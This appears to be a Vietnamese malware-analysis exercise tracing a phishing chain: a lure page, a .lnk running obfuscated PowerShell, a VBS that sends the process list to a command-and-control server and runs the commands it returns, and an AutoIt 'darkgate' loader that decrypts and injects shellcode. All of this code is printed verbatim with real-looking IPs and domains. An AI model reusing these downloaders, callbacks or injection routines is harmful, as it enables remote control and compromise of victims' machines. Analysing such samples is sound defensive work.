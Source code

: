 ### Luyện tập 1
  
Link phishing: https://lingiangcosmetic.com/quotation

![](https://hackmd.io/_uploads/S1OrkypWp.png)

View page source ta có thể thấy đường dẫn file ChungLG.js "đáng ngờ". Sau đó thông qua `search-ms` đẫn người dùng truy cập đến địa chỉ `194.87.31.108:8080` để thực hiện tải file độc hại

![](https://hackmd.io/_uploads/By0leJaZT.png)


![](https://hackmd.io/_uploads/r16by1pbT.png)

Người dùng bị lừa tải file shortcut(.lnk) và thực thi powershell script độc hại bị nhúng trong file `.lnk`

![](https://hackmd.io/_uploads/rkGfZy6-p.png)


```
$path = $env:TEMP + '\ldOGUevTtt.pdf';$secondPath=$env:TEMP+'\HYFmFrcWvQ.vbs';$pHqgh='';$pHqgh+='Invoke-WebRe';$WJNzC=690;$pHqgh+='quest -Uri "';$pHqgh+='http://89.23';$pHqgh+='.100.222:80/';$pHqgh+='foo/neverban';$TjHvT=9796;$pHqgh+='_SUCBAm.vbs"';$pHqgh+=' -OutFile $s';$pHqgh+='econdPath;St';$pHqgh+='art-Process ';$TzMnd= $WJNzC+ $WJNzC;$pHqgh+='-FilePath $s';$pHqgh+='econdPath;In';$pHqgh+='voke-WebRequ';$pHqgh+='est -Uri "ht';$RZjYx=167;$pHqgh+='tps://files.';$pHqgh+='catbox.moe/b';$pHqgh+='8bf3x.pdf" -';$pHqgh+='OutFile $pat';$yJYYz=9737;$pHqgh+='h;Start-Proc';$pHqgh+='ess -FilePat';$pHqgh+='h $path;';.([char](21*5) + [char](51+50) + [char](20*6)) $pHqgh;

```
Thực hiện deobfuscation đoạn powershell script thu được:
``` 
Invoke-WebRequest -Uri "http://89.23.100.222:80/foo/neverban_SUCBAm.vbs" -OutFile $secondPath;
Start-Process -FilePath $secondPath;
Invoke-WebRequest -Uri "https://files.catbox.moe/b8bf3x.pdf" -OutFile $path;
Start-Process -FilePath $path;
```
Khi đoạn powershell được thực thi file visual basic script đáng ngờ `SUCBAm.vbs` lưu tại `$path = $env:TEMP`

Nội dung file vbs
```
wecabepzyf = "cmd"
Set objWMIService = GetObject("winmgmts:\\.\root\cimv2")
dim all_process

Set colProcesses = objWMIService.ExecQuery("Select * from Win32_Process")
For Each objProcess in colProcesses
  all_process = all_process & objProcess.Name
Next



qezogvuos = "Shell.Application"



vhfvmeyvgucbd="http://vntricker.abcxzy.com:2351/nlhsapgv"
vwmlbmy="WINHTTP.WinHTTPRequest.5.1"



With CreateObject(vwmlbmy)
.Open "post", vhfvmeyvgucbd, False
.setRequestHeader "a", all_process
.send
vwmlbmy2 = .responseText
CreateObject(qezogvuos).ShellExecute wecabepzyf, vwmlbmy2 ,"","",0
End With

wscript.quit
MsgBox "ss"'slush devote minimum step between field play taxi bitter gallery nuclear stuff average elite lens reveal vague country illness pause vast claw girl omit sport april drip kiwi receive toilet category fox orient state artist earn laugh pumpkin target bike edit leader put tragic butter fiscal marble subject aware debris judge potato three bonus face mean search when crater glance napkin slam address desert hint piano switch broken feel minimum rule voice color fuel owner soft allow disagree jacket quantum term amateur dawn hybrid park such awkward domain illness pattern spice antenna deliver health pen spoon actress deposit hen opinion slide wink cross labor region tooth cry hope sad universe change fury model salt want consider guess panic subject ability debate gauge obvious special abuse defense hat peace size apart crash glance member seed twenty describe glove orbit slot wisdom clutch frequent mind shallow wool collect fiction magnet sail unusual bird egg ivory quality trap cabbage elephant length rabbit there camp extend library rally thumb answer delay ginger mutual second verb carry force opera sell wing catalog favorite lounge stand agent dial hood nice soap assume economy iron pledge stove alpha damp guess moon sibling abandon choice letter post sugar absurd course floor maze right velvet bottom engine kingdom ready vessel brave entire lonely
```
Chức năng của file `SUCBAm.vbs` gửi tất cả tiến trình đang chạy trên máy nạn nhân(mục đích có thể là kiểm tra máy nạn nhân có đang cài av hoặc file vbs đang chay trong môi trường ảo hóa hay không?) tới `http://vntricker.abcxzy.com:2351/nlhsapgv`. Sau đó sẽ nhận lại được cmd command từ phía C&C server và thực thi nó `vwmlbmy2 =.responseText;CreateObject(qezogvuos).ShellExecute wecabepzyf, vwmlbmy2 ,"","",0`

malicous command được nhận lại từ CnC Server:

![](https://hackmd.io/_uploads/r1ryqxpb6.png)


Lệnh hình trên với chức năng tải tệp thực thi Autoit.exe và tệp autoit script(.au3) độc hại và thực thi nó. 

Nội dụng file autoscript độc hại trích xuất:

```
LOCAL $XHKOUYMY
#NoTrayIcon
LOCAL $NZCLH
FUNC DECRYPTFILEWITHKEY($SFILEPATH,$SKEY)
LOCAL $XMDO
LOCAL $HFILE=FILEOPEN($SFILEPATH,16)
LOCAL $PSQCQA
LOCAL $JQVUEN
IF $HFILE=-1 THEN
LOCAL $EFSPOJC
MSGBOX(0,"Error","unable to open.")
LOCAL $KKJLNGV
RETURN SETERROR(1,0,"")
LOCAL $CQXZHMJC
ENDIF
LOCAL $YFUUQ
LOCAL $OVPF
LOCAL $BCONTENT=FILEREAD($HFILE)
LOCAL $EKLPP
FILECLOSE($HFILE)
LOCAL $WRYE
LOCAL $LPCLOBTK
LOCAL $SCONTENT=BINARYTOSTRING($BCONTENT)
LOCAL $IVRK
LOCAL $ISTART=STRINGINSTR($SCONTENT,"padoru")+6
LOCAL $YKMURDFMW
LOCAL $IEND=STRINGINSTR($SCONTENT,"padoru",0,-1,$ISTART)
LOCAL $WITXQN
LOCAL $QFYPF
IF $ISTART=6 OR $IEND=0 THEN
LOCAL $KDDH
MSGBOX(0,"Error","delimiter not found.")
LOCAL $ASYSTN
RETURN SETERROR(2,0,"")
LOCAL $SZMGNTKTG
ENDIF
LOCAL $PFAFRWZQ
LOCAL $KUXBBS
LOCAL $STODECRYPT=STRINGMID($SCONTENT,$ISTART,$IEND-$ISTART)
LOCAL $ESCTQGDEL
LOCAL $BTODECRYPT=STRINGTOBINARY($STODECRYPT)
LOCAL $CPJVPQ
LOCAL $IBLOCKSIZE=32768
LOCAL $WMONEERN
LOCAL $ILEN=BINARYLEN($BTODECRYPT)
LOCAL $XSEX
LOCAL $MQIEXVNMC
LOCAL $TBYTE=DLLSTRUCTCREATE("byte[1]")
LOCAL $JWWEB
LOCAL $IKEYALT=0,$B_DECRYPTED=BINARY("")
LOCAL $BDKSVERZU
LOCAL $IKEYLEN=STRINGLEN($SKEY)
LOCAL $ZAQVUPZ
LOCAL $RGDJOVN
FOR $I=1 TO $IKEYLEN
LOCAL $LEJBDITZV
$IKEYALT=BITXOR(BINARYMID($SKEY,$I,1),$IKEYALT)
LOCAL $IKXAHLJ
NEXT
LOCAL $BICSWZ
LOCAL $SXYDVYLD
FOR $I=1 TO $ILEN STEP $IBLOCKSIZE
LOCAL $ODNCABBAE
LOCAL $IBLOCKLEN=$IBLOCKSIZE
LOCAL $KSJXJW
IF $I+$IBLOCKLEN>$ILEN THEN $IBLOCKLEN=$ILEN-$I+1
LOCAL $CZXLDCNDT
LOCAL $BBLOCK=BINARYMID($BTODECRYPT,$I,$IBLOCKLEN)
LOCAL $AWDO
LOCAL $BDECRYPTEDBLOCK=BINARY("")
LOCAL $PUHV
FOR $J=1 TO BINARYLEN($BBLOCK)
LOCAL $FKDGGCW
EXECUTE(BINARYTOSTRING("0x202020202020202020202020446C6C53747275637453657444617461282474427974652C20312C20426974584F522842696E6172794D6964282462426C6F636B2C20246A2C2031292C2024694B6579416C742929"))
LOCAL $ZHIYV
$BDECRYPTEDBLOCK&=DLLSTRUCTGETDATA($TBYTE,1)
LOCAL $PXDIU
NEXT
LOCAL $FMZTUNVX
$B_DECRYPTED&=$BDECRYPTEDBLOCK
LOCAL $ZKELJB
NEXT
LOCAL $SIJD
LOCAL $FPVGHYUJF
RETURN $B_DECRYPTED
LOCAL $CVKFMB
ENDFUNC
LOCAL $TKFQLZGM
LOCAL $MILIAN
LOCAL $EOYWU
LOCAL $SKEY="darkgate"
LOCAL $UETGTR
LOCAL $SDECRYPTEDCONTENT=DECRYPTFILEWITHKEY(@SCRIPTFULLPATH,$SKEY)
LOCAL $MKHVNXLZM
LOCAL $IZEQ
LOCAL $YPZBWR
$OVSJZRCCSX=$SDECRYPTEDCONTENT
LOCAL $OEVLVQC
$IUFKJUJZVJ=DLLSTRUCTCREATE("byte["&BINARYLEN($OVSJZRCCSX)&"]")
LOCAL $ICADKEIYH
LOCAL $OLDPROTECT
LOCAL $DRXZUZG
LOCAL $XOCRJ
IF (NOT FILEEXISTS("C:\Program Files (x86)\Sophos"))THEN
LOCAL $LNGYN
EXECUTE(BINARYTOSTRING("0x446C6C43616C6C28226B65726E656C33322E646C6C222C2022424F4F4C222C20225669727475616C50726F74656374222C2022707472222C20446C6C53747275637447657450747228244975464B4A554A5A766A292C2022696E74222C2042696E6172794C656E28246F76736A5A5243435358292C202264776F7264222C20307834302C202264776F72642A222C20246F6C6470726F7465637429"))
;DllCall("kernel32.dll", "BOOL", "VirtualProtect", "ptr", DllStructGetPtr($IuFKJUJZvj), "int", BinaryLen($ovsjZRCCSX), "dword", 0x40, "dword*", $oldprotect)	
LOCAL $HBDT
ENDIF
LOCAL $VAHABQTNH
LOCAL $SGVZGT
EXECUTE(BINARYTOSTRING("0x446C6C5374727563745365744461746128244975464B4A554A5A766A2C20312C20246F76736A5A524343535829"))
;DllStructSetData($IuFKJUJZvj, 1, $ovsjZRCCSX)
LOCAL $NVSVP
EXECUTE(BINARYTOSTRING("0x446C6C43616C6C28227573657233322E646C6C222C20226C726573756C74222C20224322266368722839372926226C6C57696E646F7750726F63222C2022707472222C20446C6C53747275637447657450747228244975464B4A554A5A766A292C202268776E64222C20302C202275696E74222C20302C202277706172616D222C20302C20226C706172616D222C203029"))
;DllCall("user32.dll", "lresult", "C"&chr(97)&"llWindowProc", "ptr", DllStructGetPtr($IuFKJUJZvj), "hwnd", 0, "uint", 0, "wparam", 0, "lparam", 0)
LOCAL $FBFJJUVM
LOCAL $EYMMI
LOCAL $QTZMYCV
```

Đoạn mã trên autoit script trên có giải mã phần dữ liệu đươc đặt dữa 2 kí tự `padoru` và thưc hiện tiêm và thực thi đoạn  shellcode

Phân tích shellcode thấy chức năng của nó drop và thực thi file PE độc hại

![](https://hackmd.io/_uploads/HylAse6b6.png)


